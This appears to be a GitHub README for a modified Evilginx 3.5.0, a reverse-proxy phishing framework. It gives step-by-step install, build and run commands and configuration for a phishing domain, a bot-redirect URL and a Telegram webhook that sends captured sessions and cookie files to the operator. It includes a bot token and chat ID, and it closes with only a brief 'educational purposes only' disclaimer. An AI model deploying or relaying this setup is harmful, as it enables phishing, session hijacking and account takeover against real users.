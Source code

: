 ```markdown
# Evilginx 3.5.0 - Modified By Itwizardo

This is a modified version of Evilginx 3.5.0 that includes functionality to send sessions to your Telegram account, including the cookies file, it also has the new Gophish intergration and bug fixes.

## Ubuntu Installation

To install Evilginx 3.5.0 - Modified By Itwizardo on Ubuntu, follow these steps:

1. Clone the repository:

```bash
git clone https://github.com/itwizardo/evilginx2telegram.git
```

2. Navigate to the cloned directory:

```bash
cd evilginx2telegram
```

3. Install dependencies:

```bash
go get
```

4. Build the project:

```bash
go build
```

5. Make the executable:

```bash
make
```

6. Navigate to the build directory:

```bash
cd build
```

7. Set permissions for the Evilginx executable:

```bash
chmod +rwx evilginx
```

8. Run Evilginx:

```bash
./evilginx -p ../phishlets/
```

## Configuration Setup

Before using Evilginx, you need to set up your configuration. Follow these steps:

1. Set the domain:

```
config domain something.com
```

2. Set the external server IP:

```
config ipv4 external serverip
```

3. Set the server IP to bind to:

```
config ipv4 bind serverip
```

4. Set the unauthenticated URL:

```
config unauth_url https://bots.here.redirected.com/
```

5. Set autocert to on or off:

```
config autocert on/off
```

6. Set up the Telegram webhook:

```
config webhook_telegram 7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58O/15604540690
```

Replace `7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58O` with your Telegram token.
Replace `15604540690` with your Chat id.

## Telegram Guide

Here's a guide on how to set up Telegram for Evilginx:

### How to Get Chat ID

1. Go to Telegram and search for `@raw_data_bot`.
2. Start a conversation with the bot.
3. The bot should provide you with your chat ID.

### How to Get Token

1. Go to Telegram and search for `@BotFather`.
2. Start a conversation with the bot by sending `/start`.
3. Follow the instructions to create a new bot and get your Telegram token.

**For Educational Purposes Only:**

Evilginx 3.5.0 - Modified By Itwizardo is intended for educational purposes only. Any use of this tool for malicious or illegal activities is strictly prohibited. The developers and contributors are not responsible for any misuse of this tool.

```

Feel free to modify this README as needed for your repository! Let me know if you need further assistance.
```
